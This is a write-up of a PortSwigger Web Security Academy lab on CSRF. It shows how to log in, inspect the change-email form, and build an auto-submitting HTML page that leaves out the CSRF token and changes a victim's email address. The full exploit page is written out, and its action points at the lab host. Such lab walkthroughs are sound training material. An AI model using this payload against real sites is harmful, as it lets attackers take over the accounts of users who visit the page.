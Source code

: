 # Lab: CSRF where token validation depends on token being present
This lab's email change functionality is vulnerable to CSRF.

To solve the lab, use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address.

You can log in to your own account using the following credentials: wiener:peter

# Solution
Start by logging in with the provided credentials so see the change-email form and it's HTML.  
![](./img/Lab_3_Change_email_form.png)


![](./img/Lab_3_Mail_form_HTML.png)


We uses this form and it's action and endpoint. Adding a script tag with a JavaScript snippet for submitting the form directly. And as the title hints we remove the csrf (token) input field so that it doesn't become a parameter added to the body.   
```html
<html>
<body>
    <form class="login-form" name="change-email-form" action="https://0a85004b03f4098c80d1718300fc00d2.web-security-academy.net/my-account/change-email" method="POST">
        <label>Email</label>
        <input required type="email" name="email" value="evil@pwned.com">
        <button class='button' type='submit'> Update email </button>
    </form>
		<script>
			document.forms[0].submit()
		</script>
</body>
</html>
```


Testing the attack on our self.  
![](./img/Lab_3_Testing.png)


And finally deliver the exploit to our victim.  
![](./img/Lab_3_Solved.png)